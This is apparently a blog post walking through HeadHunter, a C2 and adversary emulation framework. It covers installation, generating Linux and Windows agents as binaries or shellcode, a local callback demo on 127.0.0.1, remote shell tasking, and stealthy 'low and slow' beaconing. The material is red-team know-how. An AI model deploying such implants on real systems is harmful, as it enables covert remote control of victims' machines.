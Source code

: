 # Diving into HeadHunter, an Adversary Emulation Framework Written in C

<p align="center">
  <img src="https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/38a0993b-569d-4a87-9742-675d2759407f">
</p>

### A Bit of Background
HeadHunter is a project very dear to me. It started as a simple reverse shell multi-handler and reverse shell payload generator written in C while I was in high school. Through tons of work and passion, it quickly evolved as my own knowledge evolved, and my freshmen year of college, it was quickly transformed into an encrypted command and control framework. 

Although I’ve worked on this project for over a year, it’s far from finished. I’m constantly planning features for the project, including team play, stronger cryptographic algorithms for communications, and expansion of the C2 agent feature set.

### Project Description

HeadHunter is an adversary emulation framework and command & control (C2) server with asynchronous, beacon based encrypted communications.
HeadHunter also includes compatible custom agents and a server bundled agent generator with cross compilation capabilities.
HeadHunter has functionality to generate binary and shellcode agents for Windows 32- and 64-bit, and GNU/Linux based operating systems.
Once deployed, a Hunter agent will call back to the HeadHunter command and control infrastructure, requesting agent tasking from the operator until provided.
If no commands are provided, the agent will sleep and continuously beacon until the agent is provided with instructions.


### Installation 
Installation on HeadHunter should be relatively simple, as I’ve specifically developed HeadHunter to not utilize many dependencies, and most of the dependencies that I do list are optional or can be substituted, and simply expand the functionality of the project. Keep in mind that installing the various dependencies only takes a few moments and are highly recommended.

***Note that HeadHunter was specifically developed with the Kali Linux platform in mind, so using a Kali install will result in the least troublesome install process. ***
 
Before the installation process, install the various dependencies for the project, with this command:
```
sudo apt install mingw-w64 gcc make objdump
```

Then for the actual installation process:

1. Clone the repository
``` 
git clone https://github.com/Lionskey/HeadHunter.git
```

2. Change directory to source tree
``` 
cd HeadHunter/
```

3. Install HeadHunter binary and payload source
```
make && sudo make install
```

<br />

After the HeadHunter server binary is moved to path, and the agent source is moved into the HeadHunter program folder, you should be able to see the HeadHunter help options:

```
shellph1sh@kali:~/HeadHunter$ headhunter --help

Commands
--------------------------------------------------------
-h, --help                                             displays this help menu
-l, --listen <address> <port>                          starts a listening HeadHunter server on a specified address and port
-g, --generate <Payload Generation Options>            generates a Hunter agent to initiate a callback


Payload Generation Options
--------------------------------------------------------
-p, --port <port>                                      Hunter agent callback port
-o, --output <outputfile>                              file to output agent to
-w, --platform <platform>                              Hunter agent target platform (win64, win32, linux)
-f, --format <format>                                  Hunter agent output format (bin, shellcode)
-l, --localhost <address>                              Hunter agent callback address
```

<br />

Let’s generate a Linux agent and initiate a callback locally on our Kali Linux machine. First let’s start up our HeadHunter listener on the loopback address: 127.0.0.1 and on port 443.

We can use the command:
```
headhunter -l 127.0.0.1 443
```


![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/5693faff-8a84-4611-8e78-36454840338e)

<br />

Now let’s generate an agent with the default encryption key from inside of the HeadHunter server console using the command:
```
headhunter -g -l 127.0.0.1 -p 443 -w linux -f bin -o Hunter
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/10fcba59-c191-4daf-b45f-f4fb639932b4)

<br />

Note that the HeadHunter operator can execute any shell command through the HeadHunter server console, providing flexibility for the operator.

<br />

Ok, now execute the compiled agent in another window, and if all goes well, we should receive a callback notifier in our C2 server console output.

```
shellph1sh@kali:~/HeadHunter$ ./Hunter&     
[1] 11284
                                                                                
shellph1sh@kali:~/HeadHunter$ 
```

<br />

And yes! HeadHunter notes that we’ve received a beacon connection from our compiled agent!

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/0cd4463b-9e10-49c7-b710-2cdc99fbbbee)


<br />

We can now enter the “show sessions” command, or “show” for short, to see active agent sessions, as well as how long it has been since they’ve checked in to the HeadHunter server.

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/de5460bb-36b5-43ed-a384-5659bb0251d5)

<br />

Utilize the “use” command to interact with an agent, passing the ID from the “show” command as a parameter. Note that we can now queue the agent with tasks to execute and receive output back. For example, we can execute system commands with the “shell” command, using the command we want to execute as a parameter:

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/561a5cf8-b731-4d8d-aadf-b69240aebe64)

<br />

HeadHunter can also task the agent to change the default sleep timer setting depending on the objectives of the operation, with the ability to choose between a loud interactive session or a “low and slow” OPSEC safe operation. 
The operator of the HeadHunter C2 server also can background an agent session and interact with any session connected to the server infrastructure at the discretion of the operator.




